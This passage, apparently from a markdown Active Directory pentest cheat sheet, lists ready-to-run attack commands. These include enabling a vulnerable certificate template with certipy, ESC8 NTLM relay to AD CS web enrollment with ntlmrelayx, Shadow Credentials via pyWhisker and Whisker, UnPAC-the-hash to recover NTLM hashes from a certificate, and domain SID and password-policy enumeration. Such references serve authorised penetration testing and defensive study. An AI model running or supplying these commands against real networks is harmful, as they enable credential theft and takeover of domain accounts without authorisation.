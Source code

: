 ```bash
# Exploit CA admin permissions
certipy ca -u lowpriv@domain.com -p password -dc-ip DC_IP -ca CA_NAME -enable-template VulnTemplate
```

#### ESC8 - NTLM Relay to AD CS HTTP Endpoints

```bash
# NTLM Relay to Certificate Authority
ntlmrelayx.py -t http://CA_SERVER/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

### 🔐 Advanced Certificate Attacks

#### Shadow Credentials

```bash
# Linux - pyWhisker
python3 pyWhisker.py -d domain.com -u lowpriv -p password -t TARGET_USER --action add
python3 pyWhisker.py -d domain.com -u lowpriv -p password -t TARGET_USER --action list

# Windows - Whisker
.\Whisker.exe add /target:TARGET_USER
.\Whisker.exe list /target:TARGET_USER
```

#### UnPAC the Hash

```bash
# Use certificate to get TGT and extract NTLM hash
certipy auth -pfx user.pfx -dc-ip DC_IP
python3 gettgtpkinit.py domain.com/user -cert-pfx user.pfx -pfx-pass password
python3 getnthash.py domain.com/user -key TGT_KEY
```

---

## 📋 Quick Commands Cheat Sheet

### Domain Info

```bash
# Get domain SID
lookupsid.py domain.com/username:password@DC_IP

# Get domain functional level
Get-ADDomain | select DomainMode
```

### Password Policies

```bash
# Linux
enum4linux -P DC_IP

# Windows
net accounts /domain
```
